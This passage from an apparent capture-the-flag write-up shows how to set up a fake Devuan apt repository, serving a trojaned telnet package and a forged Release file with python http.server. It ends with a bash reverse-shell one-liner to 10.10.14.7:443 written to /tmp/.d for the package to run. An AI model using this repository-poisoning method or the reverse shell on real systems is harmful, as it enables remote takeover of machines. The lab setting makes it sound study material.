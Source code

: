 My release file now contains that info. It took a little tweaking of parameters to get it working:

```

Origin: Devuan
Label: Devuan
Suite: stable
Version: 2.0.0
Codename: ascii
Date: Sun, 26 Aug 2019 00:46:02 UTC
Architectures:  amd64 arm64 armel armhf i386 ppc64el
Components: main
SHA256:
 822293926a655c9ad8eb2d6125899ce966fdde80ea669e3852f8658a2d957875      697 main/binary-amd64/Packages
 d972aac748a64259de3bdb62ffacbbe5e036e2b18e19810d4e67d934a9d30006      492 main/binary-amd64/Packages.gz

```

### Serve Repo

#### File Structure

I’ll need to put the package, `Packages`, and `Release` into the right spots relative to my web root for this to work. If something is out of place, I’ll see a 404 in my python `http.server` output.

```

root@kali# find repo/ -type f
repo/devuan/dists/ascii/main/binary-amd64/Packages
repo/devuan/dists/ascii/main/binary-amd64/Packages.gz
repo/devuan/dists/ascii/Release
repo/devuan/pool/DEBIAN/main/n/netkit-telnet/telnet_0.17-42_amd64.deb

```

#### Run Server

Now I’ll go to that folder root and run `python3 -m http.server 80` to start the server. It must be on 80 for this to work.

### Run Exploit

#### Set Action

First I’ll need to set up the action I want to run. My package will execute `/tmp/.d`. I’ll put a simple reverse shell there:

```

www-admin-data@onetwoseven:/$ echo -e '#!/bin/sh\n\nbash -c "bash -i >& /dev/tcp/10.10.14.7/443 0>&1"'          
#!/bin/sh

bash -c "bash -i >& /dev/tcp/10.10.14.7/443 0>&1"
www-admin-data@onetwoseven:/$ echo -e '#!/bin/sh\n\nbash -c "bash -i >& /dev/tcp/10.10.14.7/443 0>&1"' > /tmp/.d
www-admin-data@onetwoseven:/$ chmod +x /tmp/.d 

```
